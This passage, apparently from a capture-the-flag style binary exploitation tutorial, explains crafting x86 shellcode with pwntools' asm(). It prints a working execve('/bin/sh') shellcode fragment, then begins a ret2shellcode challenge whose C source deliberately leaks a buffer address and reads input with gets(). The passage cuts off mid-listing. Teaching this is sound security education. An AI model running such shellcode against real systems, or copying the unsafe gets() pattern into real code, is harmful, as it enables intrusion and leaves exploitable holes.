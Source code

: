 Ultimately what this means is we can construct turing complete programs with just opcodes although id rather peel my eyes out with a spoon. Which on a happy note brings us back to pwntools our binary exploitation lord and saviour. The `asm()` function is truly a gift and puts the fun back into constructing shellcode to pop a shell (which we would otherwise do with opcodes). The function lets us supply `x86` instructions which will then be converted into a opcode string that we can place on the stack (in this case) to execute our code. 

The following python fragment demonstrates its usage to craft shellcode that will execute the syscall for `exceve('/bin/sh')`:


```python
shellcode = asm('''
    xor eax, eax
    push eax     

    push 0x68732f2f   
    push 0x6e69622f 

    mov ebx, esp   
    push eax

    push ebx
    mov ecx, esp
    mov al, 0xb     

    int 0x80
''')
```

Now I know what you are thinking, *"Do I need to be fluent in x86 this dead language from before I walked the face of the high level language earth?"*. Sort of ? No not really ...

A lot of the time we don't need to do anything too wild with our shellcode for example you can see that even a small fragment like the one above is enough to give us a shell on the system. More complex shellcode may open a file and write its contents into a buffer on the stack which we then read from.

### Writing an Exploit With Shellcode

Now lets take a look at a simple ret2shellcode challenge. The reason it is **simple** is because the address of the buffer on the stack that we will place our shellcode into is leaked by the binary. In harder ret2shellcode challenges you may need to leak the buffer address yourself, with say a format string vuln (which we will explore soon), or guess its location.  

#### C Source

+ This is the source code for the challenge

```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>

int 
hack_me()
{
    // chonk
    char buffer[200];

    printf("Hit me with your best shot @%p\n", &buffer);
    gets(&buffer);

    return 0;
}

int 
main(int argc, char const *argv[])
```